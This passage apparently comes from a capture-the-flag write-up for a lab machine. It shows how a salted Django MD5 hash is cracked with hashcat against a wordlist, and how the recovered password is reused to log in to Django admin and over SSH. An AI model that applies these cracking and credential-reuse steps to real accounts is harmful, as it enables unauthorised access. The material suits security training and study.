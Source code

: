

    md5$kL2cLcK2yhbp3za4w3752m$9886e17b091eb5ccdc39e436128141cf



#### Crack Password

The hash is of the format described
[here](https://passlib.readthedocs.io/en/stable/lib/passlib.hash.django_std.md#id3),
`{ident}${salt}${hash}`. The hash is calculated by combining the salt
and then the password.

To crack a salted MD5 hash in `hashcat`, I'll use mode 20 from the
[example hashes](https://hashcat.net/wiki/doku.php?id=example_hashes)
page, `md5($salt.$pass)`. It needs the hash in the format
`{hash}:{salt}`, so mine becomes:



    9886e17b091eb5ccdc39e436128141cf:kL2cLcK2yhbp3za4w3752m



It cracks almost instantly:



    $ hashcat -m 20 hash /usr/share/wordlists/rockyou.txt 
    ...[snip]...
    9886e17b091eb5ccdc39e436128141cf:kL2cLcK2yhbp3za4w3752m:onedayyoufeellikecrying
    ...[snip]...



#### Django Admin

This hash does work to log into the Django admin interface as clarence:

![](/img/image-20220112165850279.png)

I could look around here more, but I don't need to.

### SSH

I'll note that clarence is a user on the machine from the `/etc/passwd`
file. This password also works over SSH to get a connection:



    oxdf@hacky$ sshpass -p 'onedayyoufeellikecrying' ssh clarence@10.10.10.21
    ...[snip]...
    clarence@scanner:~$ 



And `user.txt`:



    clarence@scanner:~$ cat user.txt
    10247fad************************


